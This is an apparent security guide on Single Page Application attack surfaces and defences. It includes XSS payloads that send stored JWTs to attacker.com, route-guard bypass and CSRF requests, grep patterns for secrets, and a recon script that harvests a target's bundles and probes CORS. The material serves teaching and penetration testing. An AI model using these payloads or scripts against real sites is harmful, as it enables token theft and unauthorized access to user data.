


# SPA Security

> **Single Page Applications shift rendering and routing to the browser, dramatically expanding the client-side attack surface compared to traditional server-rendered applications.**

---

## 🧠 What Is It? (Beginner Explanation)

A **Single Page Application (SPA)** is a web app that loads once and then dynamically updates content in the browser without full page reloads. Think of Gmail, Twitter, or Figma — after the initial load, all navigation happens inside the browser.

Traditional apps: every click = new HTTP request = server sends new HTML  
SPAs: every click = JavaScript updates the DOM = only API calls go to the server

This architectural shift creates **new attack surfaces**:
- All application logic ships to the browser in JavaScript bundles
- Routes, business logic, and sometimes API keys are visible in client-side code
- Authentication state (JWTs) often lives in `localStorage` — accessible to any JavaScript
- Client-side access control can be bypassed by directly calling the API

**Frameworks**: React, Vue.js, Angular, Svelte, SolidJS, Qwik

---

## 🏗️ How It Works (Technical Deep Dive)

### Traditional vs SPA Architecture

**Traditional (Server-Rendered)**:
1. Browser requests `/dashboard`
2. Server authenticates the session
3. Server renders HTML template with user data embedded
4. Server returns complete HTML page

**SPA**:
1. Browser loads `index.html` + `app.bundle.js` once
2. JavaScript router intercepts `/dashboard` navigation
3. Router checks auth state *in memory* or *localStorage*
4. Component fetches data from `GET /api/dashboard` with a JWT
5. Component renders the fetched data into the DOM

### SPA Attack Surface Map

```
Browser
├── JavaScript Bundle (app.bundle.js)
│   ├── Route definitions (all routes visible)
│   ├── API endpoint URLs (hardcoded strings)
│   ├── Business logic (validation, pricing, permissions)
│   ├── Environment variables (sometimes leaked via webpack)
│   └── Third-party SDK keys (Stripe, Google, Mixpanel)
├── localStorage / sessionStorage
│   ├── JWT access tokens
│   ├── Refresh tokens
│   └── User PII (cached profile data)
├── Browser Memory (JavaScript heap)
│   ├── Redux/Vuex store (full app state)
│   └── Component state (may include sensitive data)
└── DOM
    ├── React/Vue DevTools readable component tree
    └── Data-attributes with encoded info
```

---

## 📊 Diagram





---

## ⚙️ JWT Storage: The Token Storage Dilemma

### Storage Location Comparison

| Storage | Persistent | XSS Accessible | CSRF Risk | Notes |
|---------|-----------|----------------|-----------|-------|
| `localStorage` | ✅ Yes | ❌ YES | ✅ No | Most common, most dangerous |
| `sessionStorage` | Tab-only | ❌ YES | ✅ No | Still JS-readable |
| `httpOnly` Cookie | ✅ Yes | ✅ No | ❌ YES | Safest from XSS, needs CSRF protection |
| In-memory (state) | ❌ No | ✅ No | ✅ No | Best XSS safety, UX tradeoff |

### Stealing JWT from localStorage via XSS

```javascript
// XSS payload — steal JWT from localStorage
<script>
fetch('https://attacker.com/steal?token=' + localStorage.getItem('jwt'))
</script>

// Or via img tag if CSP blocks scripts


// Or use WebSocket to exfiltrate
<script>
  var ws = new WebSocket('wss://attacker.com');
  ws.onopen = () => ws.send(JSON.stringify({
    local: {...localStorage},
    session: {...sessionStorage}
  }));
</script>
```

### Reading JWT from sessionStorage

```javascript
// Accessing sessionStorage (same XSS vector)
sessionStorage.getItem('access_token')
sessionStorage.getItem('id_token')
sessionStorage.getItem('user')

// Dump all storage
Object.entries(sessionStorage)
Object.entries(localStorage)
```

### Safe: In-Memory Token Storage Pattern

```javascript
// React — store token in module-level variable (not localStorage)
let accessToken = null;

export const AuthService = {
  setToken(token) {
    accessToken = token;  // XSS cannot read module-scope variables
  },
  getToken() {
    return accessToken;
  },
  clear() {
    accessToken = null;
  }
};

// Intercept all API calls to attach token
axios.interceptors.request.use(config => {
  if (accessToken) {
    config.headers['Authorization'] = `Bearer ${accessToken}`;
  }
  return config;
});
```

---

## ⚙️ CSRF in SPAs

### When SPAs Are Protected (and When They're Not)

SPAs using JWT in `Authorization` headers are **naturally CSRF-resistant** — CSRF attacks can send cookies but cannot set custom headers from a cross-origin page.

```
Cross-origin attack page:
<form action="https://bank.com/transfer" method="POST">
  → Can send: cookies (if SameSite not set)
  → CANNOT send: Authorization: Bearer <jwt>
  → CANNOT send: custom X-Requested-With header
```

However, if the SPA uses **cookies for authentication**, CSRF is back:

```http
### CSRF attack against SPA that uses session cookies
POST /api/transfer HTTP/1.1
Host: bank.com
Cookie: session=abc123  ← browser attaches automatically
Content-Type: application/json

{"to":"attacker","amount":10000}
```

### SameSite Cookie Protection

```http
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Strict
# SameSite=Strict: cookie NOT sent on any cross-origin request
# SameSite=Lax: cookie sent on top-level navigations only (GET)
# SameSite=None: always sent (must use Secure)
```

### Custom Header as CSRF Defense

```javascript
// Server-side: require custom header for state-changing requests
app.use((req, res, next) => {
  if (['POST', 'PUT', 'DELETE', 'PATCH'].includes(req.method)) {
    if (!req.headers['x-requested-with']) {
      return res.status(403).json({ error: 'CSRF check failed' });
    }
  }
  next();
});

// Client-side: always send the header
axios.defaults.headers.common['X-Requested-With'] = 'XMLHttpRequest';
```

---

## ⚙️ Client-Side Access Control Bypass

This is one of the most common SPA vulnerabilities. Developers implement route guards in the frontend but forget server-side authorization.

### Vulnerable Pattern

```javascript
// React Router — client-side guard only
import { Navigate } from 'react-router-dom';

function ProtectedRoute({ children }) {
  const { user } = useAuth();
  if (!user || !user.isAdmin) {
    return <Navigate to="/login" />;
  }
  return children;
}

// AdminPanel component uses this API:
function AdminPanel() {
  const [users, setUsers] = useState([]);
  useEffect(() => {
    // THIS ENDPOINT HAS NO SERVER-SIDE AUTH CHECK
    fetch('/api/admin/users')
      .then(r => r.json())
      .then(setUsers);
  }, []);
}
```

```javascript
// Bypass: ignore the React router entirely, just call the API
// The route guard is UI-only — the API call works regardless
fetch('/api/admin/users', {
  headers: { 'Authorization': `Bearer ${myRegularUserToken}` }
})
.then(r => r.json())
.then(data => console.log('Admin data:', data));
```

### Bypassing Angular Route Guards

```typescript
// Angular route guard — client-side only
@Injectable({ providedIn: 'root' })
export class AdminGuard implements CanActivate {
  constructor(private authService: AuthService, private router: Router) {}

  canActivate(): boolean {
    if (!this.authService.isAdmin()) {
      this.router.navigate(['/forbidden']);
      return false;
    }
    return true;
  }
}

// Bypass: open browser console and call the API directly
fetch('/api/admin/stats', {
  headers: {
    'Authorization': 'Bearer ' + localStorage.getItem('token'),
    'Content-Type': 'application/json'
  }
});
```

### Correctly Protected: Server-Side Authorization

```javascript
// Express.js — server-side admin check (required!)
const requireAdmin = (req, res, next) => {
  if (!req.user || !req.user.isAdmin) {
    return res.status(403).json({ error: 'Admin access required' });
  }
  next();
};

router.get('/api/admin/users', authenticate, requireAdmin, async (req, res) => {
  const users = await User.findAll();
  res.json(users);
});
// Client-side guard is UX-only; server-side guard is security
```

---

## ⚙️ API Abuse via JS Bundle Analysis

Everything in an SPA's JS bundle is visible to anyone who downloads it.

### Extracting Endpoints from a Bundle

```bash
# Method 1: grep for API path strings
grep -oE "['\"](/api/[a-zA-Z0-9/_-]+)['\"]" app.bundle.js | \
  sed "s/['\"]//g" | sort -u

# Method 2: grep for all HTTP method calls
grep -oP "(get|post|put|patch|delete)\(['\"]([^'\"]+)['\"]" app.bundle.js | \
  grep -oP "['\"][^'\"]*['\"]" | tr -d "'\""

# Method 3: Find fetch() and axios calls
grep -oP "(fetch|axios\.(get|post|put|delete))\([\"'][^\"']+[\"']" app.bundle.js

# Method 4: Extract all URLs
grep -oP 'https?://[^"'\''\\s>]+' app.bundle.js | sort -u

# Method 5: Find API keys and secrets
grep -E "(api_key|apiKey|API_KEY|secret|token|AUTH|password)\s*[=:]\s*['\"][^'\"]{10,}" \
  app.bundle.js | head -20

# Method 6: Find hardcoded credentials
grep -E "(Basic [A-Za-z0-9+/=]{20,}|Bearer [A-Za-z0-9._-]{20,})" app.bundle.js
```

### Deobfuscating Minified Bundles

```bash
# Install prettier for formatting
npm install -g prettier

# Prettify a minified bundle
prettier --write app.bundle.js
# or
js-beautify -o readable.js app.bundle.js

# Use source maps if available
# Check for: app.bundle.js.map or SourceMappingURL comment at end of file
tail -1 app.bundle.js
# If SourceMappingURL exists, download and parse with:
pip install sourcemapper
sourcemapper -url https://target.com/static/app.bundle.js.map -output ./source/

# Extract original source from source map
curl -s https://target.com/static/app.bundle.js.map | \
  python3 -c "
import json, sys, os
m = json.load(sys.stdin)
for i, src in enumerate(m['sources']):
    content = m['sourcesContent'][i] if i < len(m.get('sourcesContent', [])) else ''
    if content:
        os.makedirs(os.path.dirname(src), exist_ok=True)
        open(src, 'w').write(content)
        print('Extracted:', src)
"
```

### GraphQL Introspection

```bash
# Check if GraphQL introspection is enabled
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __schema { types { name } } }"}' | jq '.data.__schema.types[].name'

# Full schema dump with graphql-voyager data
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{
    "query": "query IntrospectionQuery { __schema { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description locations args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name } } } } } } }"
  }' | jq . > graphql_schema.json

# Use graphql-voyager to visualize: https://apis.guru/graphql-voyager/
```

---

## ⚙️ Framework-Specific Vulnerabilities

### React — dangerouslySetInnerHTML

```jsx
// ❌ VULNERABLE — raw HTML injected from user/API data
function Comment({ comment }) {
  return (
    <div
      className="comment"
      dangerouslySetInnerHTML={{ __html: comment.body }}
    />
  );
}
// Payload: {"body": ""}

// ✅ SAFE — React escapes by default
function Comment({ comment }) {
  return <div className="comment">{comment.body}</div>;
}

// ✅ SAFE — sanitize if HTML rendering is required
import DOMPurify from 'dompurify';
function Comment({ comment }) {
  const clean = DOMPurify.sanitize(comment.body, { USE_PROFILES: { html: true } });
  return <div dangerouslySetInnerHTML={{ __html: clean }} />;
}
```

### Angular — bypassSecurityTrustHtml

```typescript
// ❌ VULNERABLE
import { DomSanitizer } from '@angular/platform-browser';

@Component({
  template: `<div [innerHTML]="trustedHtml"></div>`
})
export class ArticleComponent {
  trustedHtml: SafeHtml;
  constructor(private sanitizer: DomSanitizer) {
    // NEVER bypass for user-controlled content
    this.trustedHtml = this.sanitizer.bypassSecurityTrustHtml(userInput);
  }
}

// ✅ SAFE — let Angular sanitize
@Component({
  template: `<div [innerHTML]="content"></div>` // Angular sanitizes [innerHTML] by default
})
export class ArticleComponent {
  content: string = userInput; // Angular will strip dangerous tags
}
```

### Vue — v-html Directive

```vue
<!-- ❌ VULNERABLE -->
<template>
  <div v-html="userContent"></div>
</template>
<!-- Payload: userContent = "<script>alert(1)</script>" -->

<!-- ✅ SAFE — use text interpolation -->
<template>
  <div>{{ userContent }}</div>
</template>

<!-- ✅ SAFE — sanitize before using v-html -->
<template>
  <div v-html="sanitizedContent"></div>
</template>
<script>
import DOMPurify from 'dompurify';
export default {
  computed: {
    sanitizedContent() {
      return DOMPurify.sanitize(this.userContent);
    }
  }
}
</script>
```

---

## 🛠️ Tools

### Browser DevTools Workflow

```
1. Open DevTools (F12) → Network tab
2. Filter: XHR/Fetch to see only API calls
3. Click around the SPA — observe API endpoints being called
4. Check Request/Response headers and bodies
5. Copy as cURL for Burp replay

Sources tab:
6. Find app.bundle.js or chunk files
7. Use "Pretty print" button {} to format
8. Search (Ctrl+F) for: api, fetch, axios, endpoint, url, token, key, secret
```

### Burp Suite SPA Configuration

```
1. Proxy → Options → Add proxy listener on 127.0.0.1:8080
2. Browser: set proxy to 127.0.0.1:8080
3. Import Burp CA cert to browser (important for HTTPS)
4. In Burp: Proxy → HTTP history → Filter:
   - Show only: XHR, JSON content type
   - Hide: images, CSS, fonts
5. Use "Match and Replace" to intercept all fetch() calls:
   - Match: Authorization: Bearer (.*)
   - Replace with modified token

Embedded Chromium (Burp 2022+):
6. Proxy → Intercept → Open browser
7. Navigate SPA normally — all requests captured automatically
```

### CORS Misconfiguration Testing

```bash
# Test for CORS misconfiguration on SPA API
curl -s -H "Origin: https://evil.com" \
     -H "Access-Control-Request-Method: GET" \
     -X OPTIONS \
     https://target.com/api/user/profile \
     -v 2>&1 | grep -i "access-control"

# If response contains:
# Access-Control-Allow-Origin: https://evil.com
# Access-Control-Allow-Credentials: true
# → CORS misconfiguration allowing credential theft

# CORS bypass payloads to try
# Null origin
curl -H "Origin: null" https://target.com/api/profile -v

# Subdomain
curl -H "Origin: https://evil.target.com" https://target.com/api/profile -v

# Target.com prefix
curl -H "Origin: https://target.com.evil.com" https://target.com/api/profile -v
```

### Retire.js — Vulnerable Library Detection

```bash
# Install retire.js
npm install -g retire

# Scan JS files for known vulnerable libraries
retire --path ./static/js/ --outputformat json | jq '.[] | select(.vulnerabilities)'

# Online check
retire --js --jspath https://target.com/static/app.bundle.js
```

---

## 🔍 Detection

### SPA Penetration Testing Checklist

```
Authentication & Tokens:
☐ Where is the token stored? (localStorage / sessionStorage / cookie / memory)
☐ If localStorage: XSS impact = full account takeover
☐ Is the token a JWT? Decode at jwt.io — check algorithm (none attack)
☐ Check token expiry — is it too long? (>24h for access token is suspicious)
☐ Is there a refresh token? Where is it stored?

Client-Side Access Control:
☐ Identify all route guards in JS bundle
☐ Try calling the underlying APIs directly without going through the UI
☐ Change role/isAdmin in localStorage/state — does the server honor it?

Source Code Analysis:
☐ Download and prettify all JS bundles
☐ Find all API endpoints
☐ Look for hardcoded API keys, credentials, secrets
☐ Look for commented-out debug endpoints
☐ Check source maps for original source code

XSS Sinks in SPA Frameworks:
☐ React: dangerouslySetInnerHTML
☐ Angular: bypassSecurityTrustHtml, [innerHTML]
☐ Vue: v-html
☐ All: href/src with user data, eval(), setTimeout(string)

CORS:
☐ Test arbitrary Origin reflection
☐ Test null origin
☐ Check if Access-Control-Allow-Credentials: true
```

### Automated Recon Script

```bash
#!/bin/bash
# spa-recon.sh — Quick SPA reconnaissance
TARGET=$1

echo "[*] Fetching JS bundles..."
curl -s "$TARGET" | grep -oP "src=['\"]([^'\"]*\.js)['\"]" | \
  grep -oP "['\"].*['\"]" | tr -d "'\""  | \
  while read path; do
    echo "  Bundle: $TARGET$path"
    curl -s "$TARGET$path" -o "bundle_$(basename $path)"
  done

echo "[*] Extracting API endpoints..."
cat bundle_*.js | grep -oE "['\"](/api/[a-zA-Z0-9/_?=-]+)['\"]" | \
  sed "s/['\"]//g" | sort -u > endpoints.txt
echo "Found $(wc -l < endpoints.txt) endpoints"

echo "[*] Searching for secrets..."
cat bundle_*.js | grep -E "(api_key|apiKey|secret|password|token|AUTH)" | \
  grep -v "//.*" | head -20

echo "[*] Checking for source maps..."
for f in bundle_*.js; do
  tail -1 "$f" | grep -q "sourceMappingURL" && echo "Source map found in: $f"
done

echo "[*] Testing CORS..."
curl -s -H "Origin: https://evil.com" -X OPTIONS \
  "$TARGET/api" -I | grep -i "access-control"
```

---

## 🛡️ Mitigation

### Token Security

```javascript
// ✅ Use httpOnly cookies (server sets, JS cannot read)
// Server (Express):
res.cookie('accessToken', token, {
  httpOnly: true,      // JS cannot access
  secure: true,        // HTTPS only
  sameSite: 'strict',  // CSRF protection
  maxAge: 15 * 60 * 1000  // 15 minutes
});

// ✅ Short-lived access tokens + refresh token rotation
// Access token: 15 minutes
// Refresh token: 7 days, rotated on each use, stored in httpOnly cookie
```

### Content Security Policy

```nginx
# Nginx — strict CSP for SPA
add_header Content-Security-Policy "
  default-src 'self';
  script-src 'self' 'nonce-RANDOM_NONCE';
  style-src 'self' 'unsafe-inline';
  connect-src 'self' https://api.yourdomain.com;
  img-src 'self' data: https:;
  font-src 'self';
  frame-ancestors 'none';
  form-action 'self';
" always;
```

### Subresource Integrity

```html
<!-- Ensure third-party scripts haven't been tampered with -->
<script
  src="https://cdn.example.com/library.js"
  integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"
  crossorigin="anonymous">
</script>
```

---

## 📚 References

- [OWASP SPA Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html)
- [Auth0 — Token Storage Best Practices](https://auth0.com/docs/secure/security-guidance/data-security/token-storage)
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [PortSwigger — Attacking SPAs](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
- [Cure53 — Browser Security Whitepaper](https://github.com/cure53/browser-sec-whitepaper)
- [CORS Misconfiguration — James Kettle](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
- [retire.js](https://retirejs.github.io/retire.js/)
